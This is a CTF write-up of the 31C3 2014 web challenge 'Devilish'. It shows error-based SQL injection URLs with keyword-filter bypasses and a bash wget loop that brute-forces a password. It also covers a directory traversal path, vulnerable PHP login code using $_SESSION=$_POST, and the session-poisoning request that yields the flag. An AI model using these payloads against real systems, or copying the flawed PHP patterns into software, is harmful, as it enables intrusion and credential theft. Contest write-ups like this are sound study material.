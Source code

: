 # 31C3 CTF 2014: Devilish

**Category:** web
**Points:** 30
**Solves:** 24
**Description:**

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> <http://188.40.18.70/>

## Write-up

31c3ctf devilish writeup by boogy
#################################

This is my first ctf writeup so I hope it won't be to horrible. And sorry in advance for my bad English.

I'll talk about devilish a web challenge from the [31c3ctf 2014 CTF](https://31c3ctf.aachen.ccc.de/). I'll give credit to one of our team members on this one "Michael", because we were both working on this challenge.

Well lets get to business with the devilish 30 points challenge. Only 24 teams solved it.

Here is the description of the challenge:

>It's some devilish community public portal, we're pretty sure there's something else out there, a private portal maby, we'd like to know the secret behind it

When we go to the web page we can see a nice vampire-sh web page :

![alt text](http://3.bp.blogspot.com/-1nyChnZx-Bg/VKLGMAeyXyI/AAAAAAAACPg/X2bDekG9wiY/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B16.34.40.png "INDEX PAGE")

```bash
http://188.40.18.70/PROFILE/55\/||extractvalue(3,concat(0x3a,(select%0bconcat_ws(0x3a3a,id_user,Us3rN4m3)%0bfrom%0busers%0blimit%0b0,1)))--%0b
```

After some research we can see that there is a sql injection vulnerability in the PROFILE page. The problem is that the font used by the web page is with Halloween images and you need to show the HTML source all the time to see the error message from the sql injection. So one of our team members Michael had the idea to disable firefox **gfx.downloadable_fonts.enabled** option. So juste set the option to false.

![alt text](http://3.bp.blogspot.com/-ltBPEwqf0Eg/VKLIen_kVQI/AAAAAAAACP4/B5xU9YFXGmk/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B16.44.41.png "sql 1")

```bash
http://188.40.18.70/PROFILE/55\/||extractvalue(3,concat(0x3a,(select%0bconcat_ws(0x3a3a,id_user,Us3rN4m3)%0bfrom%0busers%0blimit%0b0,1)))--%0b
```

Above you have the page before changing the **gfx.downloadable_fonts.enabled** which is set to true and here it is after:

![alt text](http://2.bp.blogspot.com/-XCab5VxZxa0/VKLK30OUl2I/AAAAAAAACQE/BYt0SwFb8_c/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B16.43.57.png "sql 2")


Better isn't it ?

OK, so now we know where the injection is and we can run commands. But there are a lot of filters that don't allow us to enumerate columns. information_schema, table, or, union all of these are filtered, so we need to find a way around it. What we need is the password column name to be able to login.

To enumerate the columns without the above keywords we can do error based sql injection with duplicate keys error. This will enumerate the columns for us. So the final exploit for the sql column problem is :

```bash
http://188.40.18.70/PROFILE/55%5C/||extractvalue%28null,concat%280x3a,%28select%09*%09from%28select%09*%09from%09users%09as%09a%09join%09users%09as%09b%09using%28id_user,Us3rN4m3,Em4iL4dR3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29as%09x%29%29%29--%0B
```

Witch gives us :

![alt text](http://1.bp.blogspot.com/-4-V1FwNX7Jc/VKLIKgPRgmI/AAAAAAAACPw/VfgpFuQTD2I/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B16.43.21.png "sql 3")

This is the column we need to extract the password from. So let's do that:

![alt text](http://4.bp.blogspot.com/-WWEQnKReXPM/VKL3xoRWMYI/AAAAAAAACQ4/K5kp82bQHbY/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B20.06.26.png "sql 4")

```bash
http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x7e,%28select%09concat_ws%280x3a,Us3rN4m3,P4sWW0rD_0F_M3_WTF%29%09from%09users%09limit%091,1%29%29%29--%09
```

But when we try to log in with the password it doesn't work. So may be the error does not show all the chars from the password. We need to bruteforce the reste of the password with locate(). Here is a script that Michael made really fast:

```bash
#!/bin/bash
str='ZD456ddssd65456lksndoiNzd654sdsd'
while true
do
a=0;
echo "New string: $str"
        for i in {a..z}; do
        wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x3a,%28select%0Blocate("'$str$i'",P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
        if grep ":1" $i; then
                str=$str$i
a=1
        echo "$str";
        fi
        done
if [ $a==1 ]; then
        for i in {0..9}; do
        wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x3a,%28select%0Blocate("'$str$i'",P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
        if grep ":1" $i; then
                str=$str$i
a=1
        echo "$str";
        fi
        done
fi
if [ $a -eq 0 ]; then
        echo "PWD:$str"
        exit;
fi
done
```

Which gives us Dracula's account password:

>
Username: Dracula
Password: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz

After logging in, we found easily a directory traversal vulnerability that lets us understand that there is another site on the server as said in the challenge description. This source-code is different from the original site in **/var/www/html**:

>http://188.40.18.70/ACCESS?action=browse&dir=../../../../../home/devilish.local

![alt text](http://1.bp.blogspot.com/-rmKkeBl3bDY/VKLQtwUX76I/AAAAAAAACQU/o3PtyleFbJI/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B17.10.09.png "sql 5")

We can also see the code source of some pages that gives us a precious information for the next step:
http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD
show us the following code:

```php
<?php
 if(@$_SESSION['user']){header("location: ".$LINK);die();}
 if(isset($_POST['user'])){
  if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
   $_SESSION=$_POST;
   header("location: ".$LINK);die();
  }else{
   $Error=1;
  }
 }
?> 
```

An here is the LOGIN_HEAD from devilish.local:

```php
<?php
        if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
        if(isset($_POST['user'])){
                if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
                        $_SESSION['is_ExclusiveMember']=1;
                        header("location: ".$LINK);
                        die();
                }else{
                        $Error=1;
                }
        }
?>
```

So we need to access the second web page but how. Well you have 2 options. One you use curl and modify the Host parameter or you modify your /etc/hosts and add:

```bash
188.40.18.70    devilish.local
```

We used the second one, its more nice to do it with the web browser :). But when we go to the devilish.local web page there is no login option. And we can see this on the INDEX page:

```php
<?php echo($logged?"Here's your secret ".$flag."":"Login to access the secret")?>
```

So may be the 2 webpages use the same session. So we go back to the first site and log in but this time we send the parameter is_ExclusiveMember=1 in the post request. Remember the code above that showed us:

```php
$_SESSION=$_POST;
```

So we use firefox's [Firefox Hackbar](https://addons.mozilla.org/fr/firefox/addon/hackbar/) and send this:

>url : http://188.40.18.70/LOGIN
post: is_ExclusiveMember=1&pass=ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz&user=Dracula

Once logged in on the first website, we go again on the second one and we can see this on the first page :

![alt text](http://2.bp.blogspot.com/-T4613cgBHaI/VKLTtRc2NBI/AAAAAAAACQg/SWV4WHklcmQ/s1600/Capture%2Bd%E2%80%99e%CC%81cran%2B2014-12-30%2Ba%CC%80%2B17.11.56.png "flag")

So the flag is :
>31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5

## Other write-ups and resources

* <http://0xboogy.blogspot.com/2014/12/31c3ctf-devilish-writeup.html>
* <http://l4w.io/2014/12/31c3-ctf-writeups/>
* <http://kitctf.de/writeups/31c3-ctf/devilish/>
